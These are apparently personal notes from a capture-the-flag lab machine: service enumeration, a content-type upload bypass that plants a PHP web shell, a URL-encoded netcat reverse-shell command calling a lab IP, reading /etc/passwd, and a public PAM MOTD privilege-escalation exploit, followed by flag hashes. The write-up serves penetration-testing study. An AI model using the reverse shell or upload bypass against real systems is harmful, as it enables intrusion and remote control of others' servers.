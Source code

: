 LESSON LEARNED: 
- Always use gobuster medium and common , do note on this
- If Creating your own torrent file wont do , just download real one
- Always check for files especially user home files
- Update finding files skill / note
- Update upload bypass notes


Port 22
=========
 OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)

Port 80
============
/test
Suhosin Patch 0.9.7

/torrent
can register account to login and upload file but php not allowed


/rename
allow file rename
?filename=index.html&newfilename=test.html
No such file or directory in /var/www/rename/index.php on line 4

upload kali image downloaded from kali official website
edit torrent and add screenshot

file extension : test1.php
```
content-type : image/png
```
looks like file name is not filtered but content-type is filtered


/torret/uploads/ewqo9129321-test1.php
```
?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.26%204567%20%3E%2Ftmp%2Ff
```
cat /etc/passwd got user george
at /home/george found .cache/motd.legal-displayed 

quick google "motd.legal-displayed exploit" found
Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation

wget it from localhost to remote machine and run
./exploit.sh

root : dac9f0feac2821f258795a2570209e36
user : 07315850a09835d330fae25fa6df0612


